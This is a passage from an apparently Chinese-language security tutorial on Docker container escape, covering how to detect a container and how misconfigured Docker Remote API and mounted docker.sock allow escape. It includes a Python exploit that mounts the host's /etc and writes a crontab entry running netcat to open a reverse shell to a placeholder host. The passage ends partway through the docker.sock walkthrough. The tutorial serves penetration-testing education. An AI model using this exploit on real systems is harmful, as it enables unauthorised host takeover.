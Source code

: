 首先，我们需要先判断是否在 Docker 环境里，常用的两个检测方式：

-   检查 `/.dockerenv` 文件是否存在
-   检查 `/proc/1/cgroup` 内是否包含 Docker 等字符串。

目前来说，这两种检测方式还是比较有效的，其他检测方式，如检测mount、fdisk -l 查看硬盘 、判断 PID 1 的进程名等也可用来辅助判断。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print](assets/1699410763-58cfd074f3d3a5e86053741add72d667.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203150518.png-water_print")

## [](#3-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%BC%95%E5%8F%91-docker-%E9%80%83%E9%80%B8)3 配置不当引发 Docker 逃逸

### [](#31-docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)3.1 Docker Remote API 未授权访问

漏洞简述：Docker Remote API 可以执行 Docker 命令，Docker 守护进程监听在 0.0.0.0，可直接调用 API 来操作 Docker。

利用方法是，我们随意启动一个容器，并将宿主机的 `/etc` 目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入 crontab 配置文件，进行反弹 shell。

EXP：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```python<br>import docker<br><br>client = docker.DockerClient(base_url='http://your-ip:2375/')<br>data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontab" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})<br>``` |

### [](#32-dockersock-%E6%8C%82%E8%BD%BD%E5%88%B0%E5%AE%B9%E5%99%A8%E5%86%85%E9%83%A8)3.2 docker.sock 挂载到容器内部

场景描述：简单来说就是 docker in docker，在 docker 容器中调用和执行宿主机的 docker，将 docker 宿主机的 docker 文件和 docker.sock 文件挂载到容器中，具体为：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>docker run --rm -it \<br>  -v /var/run/docker.sock:/var/run/docker.sock \<br>  -v /usr/bin/docker:/usr/bin/docker \<br>  ubuntu \<br>  /bin/bash<br>``` |

漏洞复现：

1.  在容器中找到 docker.sock

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>root@95a280bc5a19:/# find / -name docker.sock<br>/run/docker.sock<br>``` |
